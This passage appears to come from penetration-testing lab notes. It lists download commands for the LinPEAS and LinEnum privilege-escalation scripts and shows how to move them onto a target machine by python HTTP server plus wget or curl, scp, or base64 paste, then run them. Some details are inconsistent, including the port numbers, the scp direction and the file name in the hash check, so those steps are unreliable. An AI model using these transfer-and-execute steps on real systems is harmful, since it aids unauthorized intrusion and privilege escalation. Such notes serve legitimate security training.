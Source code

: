   * **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
    ```bash
    wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
    ```
    
    ```bash
    curl -o linpeas.sh https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
    ```
  * **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
    ```bash
    wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
    ```
    
    ```bash
    curl -o linenum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh
    ```
---
<a id="transferring-files"></a>
## Transferring files (wget, curl & scp)

  * **WGET & cURL:**
    * on our machine, in the directory where we have the file, we open a server:

      * `python3 -m http.server 8000`
    * now on the target machine we can use either WGET or CURL:
        * `wget http://10.10.14.199:8080/LinEnum.sh`
        * `curl http://10.10.14.199:8080/LinEnum.sh -o LinEnum.sh`
    * Now just `chmod +x LinEnum.sh` and run it.

  * **SCP:**

    * When we know an SSH login of some user
    * Open the python server on our machine:
      * `python3 -m http.server 8000`
    * now on the target machine:
      * `scp linenum.sh user@remotehost:/tmp/linenum.sh`

  * **BASE64**
    * Useful to transfer small files and when there is a firewall blocking transfers.
    * First on our machine we encode the file:
      * `base64 linenum.sh -w 0`
        * `-w 0` → removes line breaks (+ easier to copy/paste)
    * Now we copy the output, and on the target machine:
      * `echo 'IyEvYmluL3NoCmlmIFtbIC1... <SNIP> ...kNlcnQgdmVyc2lvbiBvZg==' | base64 -d > linenum.sh`
    * After that, we just need to make the file executable to run it:
      * `chmod +x linenum.sh`
    * To check that it worked and the file is the same, we can run to check if the hash result is the same on both machines:
      * `md5sum shell`

---